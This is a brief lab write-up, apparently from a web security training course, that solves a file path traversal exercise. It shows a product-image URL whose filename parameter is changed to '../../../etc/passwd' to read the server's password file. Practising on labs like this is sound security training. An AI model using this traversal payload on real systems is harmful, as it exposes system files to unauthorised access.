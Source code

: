 # Reading arbitrary files via directory traversal

## File path traversal, simple case

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

Target URL:

```
https://ac591fe01e85e211c07944a800930023.web-security-academy.net/image?filename=1.jpg
```

Modified URL:

```
https://ac591fe01e85e211c07944a800930023.web-security-academy.net/image?filename=../../../etc/passwd
```